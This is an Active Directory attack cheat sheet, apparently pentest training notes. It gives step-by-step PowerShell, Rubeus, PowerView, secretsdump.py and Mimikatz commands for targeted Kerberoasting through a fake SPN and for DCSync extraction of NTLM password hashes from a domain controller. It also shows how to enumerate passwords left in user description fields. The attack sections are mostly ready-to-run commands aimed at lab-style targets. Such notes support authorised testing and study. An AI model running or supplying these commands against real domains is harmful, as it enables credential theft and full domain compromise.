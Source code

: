 #### **Abusing GenericWrite to Add Fake SPN and Perform Targeted Kerberoasting**

> If you have control of a Linux domain-joined host, you can use [TargetedKerberoast](https://github.com/ShutdownRepo/targetedKerberoast) to perform all the following steps in one command

1. Create a PSCredential Object with the credential of a user who shares group membership with the target user
   * `$SecPassword = ConvertTo-SecureString '<PASSWORD HERE>' -AsPlainText -Force`
   * `$Cred = New-Object System.Management.Automation.PSCredential('DOMAIN\validuser', $SecPassword)`
2. Create a fake SPN:
   * `Set-DomainObject -Credential $Cred -Identity targetuser -SET @{serviceprincipalname='notahacker/LEGIT'} -Verbose`
3. Kerberoast with Rubeus or any alternatives, see the [Kerberoasting Section](./#kerberoasting)
   * `.\Rubeus.exe kerberoast /user:targetuser /nowrap`

***

#### **DCSync (Replicating Directory Changes & Replicating Directory Changes All)**

> DCSync is a technique for stealing the Active Directory password database by using the built-in Directory Replication Service Remote Protocol, which is used by Domain Controllers to replicate domain data. This allows an attacker to mimic a DC to retrieve user NTLM password hashes by requesting a Domain Controller to replicate passwords via the DS-Replication-Get-Changes-All extended right, which allows the replication of secret data.\
> \
> To perform this attack, you must have control over an account that has the rights to perform domain replication (a user with the `Replicating Directory Changes` and `Replicating Directory Changes All` permissions set).\
> Domain/Enterprise Admins and default domain administrators have this right by default.

**Enumerate and Perform a DCSync Attack:**

1. Check target user (by SID) to check replication rights (DCSync):
   * `Import-Module .\PowerView.ps1`
   * `$sid = Convert-NameToSid targetuser` followed by
   * `Get-ObjectAcl "DC=domainname,DC=local" -ResolveGUIDs | ? { ($_.ObjectAceType -match 'Replication-Get')} | ?{$_.SecurityIdentifier -match $sid} | select AceQualifier, ObjectDN, ActiveDirectoryRights,SecurityIdentifier,ObjectAceType | fl`
2. Extract NTLM hashes from the NDTS.dit file on the DC:
   * Linux: `secretsdump.py -outputfile inlanefreight_hashes -just-dc INLANEFREIGHT/user-with-replication-rights@172.16.5.5 -use-vss`
   * Windows(Mimikatz): `lsadump::dcsync /domain:INLANEFREIGHT.LOCAL /user:INLANEFREIGHT\administrator`

***

## **Miscellaneous Misconfigurations**

**Passwords in User Description Field:**

* Sensitive information such as account passwords are sometimes found in the user account Description or Notes fields and can be quickly enumerated using PowerView.
* `Import-Module .\PowerView.ps1` followed by `Get-DomainUser * | Select-Object samaccountname,description`
